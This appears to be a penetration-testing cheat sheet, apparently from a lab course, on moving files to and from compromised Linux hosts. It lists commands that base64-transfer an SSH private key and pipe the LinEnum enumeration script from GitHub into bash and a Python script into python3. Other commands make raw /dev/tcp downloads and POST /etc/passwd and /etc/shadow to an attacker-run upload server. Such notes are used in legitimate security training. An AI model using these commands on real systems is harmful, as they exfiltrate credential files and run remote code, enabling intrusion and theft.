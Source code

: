 
## Downloads

### Base64 Encoding / Decoding

Take hash
```shell-session
md5sum id_rsa
```

Convert to base64
```shell-session
cat id_rsa |base64 -w 0;echo
```

Copy the output

Decode the file on target
```shell-session
echo -n '...' | base64 -d > id_rsa
```

Take hash on target
```shell-session
md5sum id_rsa
```

Hashes should match, otherwise, it is not the same file.


### Web Downloads with Wget and cURL

```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
(-O is the output flag)
```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
(-o is the output flag)

#### Use directly as a pipe for fileless

(Execute directly as a pipe)
```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

(Pipe a Python script directly into the Python binary)
```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


### Download with Bash (/dev/tcp)

Connect to the target web server
```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```

HTTP GET request
```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

Print the Response
```shell-session
cat <&3
```


### SSH Downloads

Enable and start the SSH Server
```shell-session
sudo systemctl enable ssh
```
```shell-session
sudo systemctl start ssh
```

Check for SSH Listening Port
```shell-session
netstat -lnpt
```

Download with SCP (secure copy)
```shell-session
scp plaintext@192.168.49.128:/root/myroot.txt . 
```
(Create temporary user account on host for file transfers to avoid using primary credentials or keys)



## Upload Operations

### Web Upload

Use uploadserver (an extended module of the Python HTTP.Server)
```shell-session
sudo python3 -m pip install --user uploadserver
```

Create self-signed certificate if using HTTPS
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

Host the webserver in a new directory
```shell-session
mkdir https && cd https
```
```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

#### Upload Multiple Files
```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
(--insecure due to self-signed certificate in use)

#### Alternative Upload

Start a Python, PHP, or Ruby Server in the directory with file of interest.
```shell-session
python3 -m http.server
```
```shell-session
python2.7 -m SimpleHTTPServer
```
```shell-session
php -S 0.0.0.0:8000
```
```shell-session
ruby -run -ehttpd . -p8000
```

```shell-session
wget 192.168.49.128:8000/filetotransfer.txt
```


### SCP Upload

Only if SSH is allowed for outbound connections.

```shell-session
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```



